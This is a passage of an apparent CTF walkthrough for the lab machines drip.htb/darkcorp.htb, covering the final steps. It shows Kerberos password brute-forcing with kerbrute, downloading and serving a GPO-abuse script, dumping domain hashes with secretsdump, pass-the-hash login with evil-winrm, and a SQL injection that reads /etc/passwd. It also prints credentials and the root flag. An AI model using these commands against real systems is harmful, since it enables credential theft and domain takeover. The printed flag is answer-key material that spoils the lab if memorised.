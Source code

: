 ## 11. Bruteforce Kerberos to Get taylor.b.adm Password
Prepare wordlist (filter >=7 chars):
```python
def process_line(line):
    line = line.strip()
    if len(line) < 7:
        return None
    return line

with open('/usr/share/wordlists/rockyou.txt', 'r', errors='ignore') as f, open('rockyou2.txt', 'w') as out:
    for line in f:
        word = process_line(line)
        if word:
            out.write(word + '\n')
```
Use kerbrute for bruteforce:
```bash
sshpass -p'ThePlague61780' scp kerbrute ebelford@drip.htb:/home/ebelford
sshpass -p'ThePlague61780' scp rockyou2.txt ebelford@drip.htb:/home/ebelford
ssh ebelford@drip.htb
chmod +x kerbrute
./kerbrute bruteuser -d darkcorp.htb --dc 172.16.20.1 rockyou2.txt taylor.b.adm
# Password found: !QAZzaq1
```

## 12. Privilege Escalation via GPO Abuse
Download PowerGPOAbuse script on attacker machine:
```bash
wget https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/refs/heads/master/PowerGPOAbuse.ps1
python3 -m http.server 4243
```
On DC-01, run PowerShell commands to escalate privileges (see original instructions).

## 13. Dump Domain Administrator Hashes
```bash
impacket-secretsdump darkcorp/taylor.b.adm:'!QAZzaq1'@darkcorp.htb
```
Extract Administrator NTLM hash: `fcb3ca5a19a1ccf2d14c13e8b64cde0f`.

## 14. Final Domain Administrator Access & Root Flag
```bash
evil-winrm -i dc-01.darkcorp.htb -u Administrator -H fcb3ca5a19a1ccf2d14c13e8b64cde0f
cd Desktop
type root.txt
# Root flag: 4a0eb5a75cfafb43bcb1afabd4356cda
```

---

## Summary of Critical Commands
| Step | Command/Details |
|------|-----------------|
| Rustscan & Nmap | `rustscan -a 10.10.11.54 -sCTV -Pn` |
| Hosts Update | `echo "10.10.11.54 drip.htb mail.drip.htb"` |
| XSS Exploit | `python3 xss.py -m <UID> -i <IP> -p 4243` |
| SQLi Read Files | `''; SELECT pg_read_file('/etc/passwd', 0, 2000);--` |
| SSH to ebelford | `sshpass -p'ThePlague61780' ssh ebelford@drip.htb` |